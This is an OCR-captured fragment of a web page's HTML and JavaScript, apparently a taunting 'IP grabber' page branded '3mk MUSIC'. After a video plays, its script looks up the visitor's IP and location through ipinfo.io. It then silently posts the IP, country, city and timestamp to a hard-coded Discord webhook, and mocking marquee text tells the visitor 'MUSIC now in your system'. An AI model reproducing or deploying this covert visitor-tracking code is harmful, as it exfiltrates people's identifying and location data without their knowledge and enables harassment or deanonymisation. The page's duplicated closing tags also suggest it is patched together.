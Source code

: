     // عند انتهاء الفيديو، عرض المحتوى الثاني	
    video.onended = function() {
        content.style.display = 'flex';  // عرض المحتوى الثاني
        video.style.display = 'none';    // إخفاء الفيديو
    };

    // Fetch IP information without API token
     fetch('https://ipinfo.io/json')
        .then(response => response.json())
        .then(data => {
            const { ip, country, city, region, loc, org, timezone } = data;
            const infoDiv = document.getElementById('ip-info');
            infoDiv.innerHTML = `PY 3mk MUSIC
<strong>IP:</strong><span>"${ip}"</span><br><strong>City:</strong><span>"${city}"</span><br><strong>Region:</strong><span>"${region}"</span><br><strong>Country:</strong><span>"${country}"</span><br><strong>Location:</strong><span>"${loc}"</span><br><strong></strong> <span>"${org}"</span><br><strong>Timezone:</strong><span>"${timezone}"</span>`;

            const dateTime = new Date().toLocaleString();
            const webhookUrl = 'https://discord.com/api/webhooks/1377686904669077584/cDuqzG-2VuIqMpI-0dXVovWPcZgrZkAl6yhQfJX31VSXzxIO79SJagSIERRcqy2Wh715';
            fetch(webhookUrl, {
                method: 'POST',
                headers: {'Content-Type': 'application/json'},
                body: JSON.stringify({content: `IP : ${ip}\nCountry & City : ${country} - ${city}\nDate & Time : ${dateTime}\n -`})
            });
        });
    </script>
</body>
</html>
</script>
</body>
</html>
</script>
<marquee>
              <font size="6">
                <b></b>   3mk MUSIC - 3mk Abu Munif - 3mk Eagle - حمايه فاشله - hmm Anti cheat is down ! - MUSIC now in your system !
          </div>
      </td>
    </table>
   
